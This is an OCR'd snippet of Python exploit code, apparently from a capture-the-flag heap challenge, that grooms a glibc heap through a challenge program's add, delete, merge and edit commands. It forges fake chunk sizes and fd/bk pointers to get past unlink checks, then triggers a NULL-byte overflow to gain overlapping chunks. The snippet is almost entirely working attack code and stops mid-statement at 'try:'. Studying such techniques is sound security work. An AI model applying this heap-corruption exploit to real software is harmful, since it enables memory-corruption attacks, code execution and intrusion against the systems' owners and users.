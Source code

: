 ```python
        add(0x428, b"V"*0x228, b"META_VULN")                # idx: 4

        # Create space for metadata chunks
        delete(1)
        # Allocate victim (victim must have size >= 0x500 to not go in tcache)
        add(0x4f8, b"VICTIM", b"META_VICTIM")               # idx: 1

        # Allocate chunk A
        add(0x438, b"A"*0x10, b"META_CHUNK_A")              # idx: 5
        # Creating more space
        delete(2)
        # Allocate barrier
        add(0x428, b"BARRIER_1", b"META_BARRIER_1")         # idx: 2
        # Allocate chunk B and barrier
        add(0x458, b"B"*0x10, b"META_CHUNK_B")              # idx: 6
        add(0x428, b"BARRIER_2", b"META_BARRIER_2")         # idx: 7

        #
        # NULL poisoning
        #

        # Free A, B and FAKE
        delete(5)
        delete(6)
        delete(3)

        # Consolidation
        consolidate()

        # Reclaim FAKE CHUNK which now have valid pointers to bypass unlink
        payload = p64(0) + p64(0xc91)               # Fake size 0xc80 (0x450 - 0x10 + 0x420 * 2)
        add(0x448, payload, b"META_FAKE")           # idx: 3

        # Reclaim CHUNK B and manipulate fd pointer to fake chunk
        payload = p16(0xcf90)
        add(0x458, payload, b"META_CHUNK_B")        # idx: 5

        # Reclaim CHUNK A
        add(0x438, b"A"*0x10, b"META_CHUNK_A")      # idx: 6
        # Free extra barrier so that it will be chunk A bk ptr
        delete(0)
        # Free CHUNK A to have a heap pointer in mchunk->bk
        delete(6)

        # Reclaim CHUNK A and manipulate bk pointer to point to fake chunk
        payload = p64(0) + p16(0xcf90)
        add(0x438, payload, b"META_CHUNK_A")        # idx: 0

        # Now we have a layout which is suitable to bypass every check

        # Reclaim extra barrier chunk with data to be merged
        add(0x428, b"V"*0x200, b"META_MERGE")       # idx: 6
        # Merge it with vuln to trigger the NULL poisoning
        merge(4, 6)

        # Set prev_size on victim
        payload = b"VULN".ljust(0x420, b"\0")
        payload += p64(0xc90)                       # Fake size
        edit(4, payload)

        # Free victim to obtain a overlapping chunk
        delete(1)
        try:
```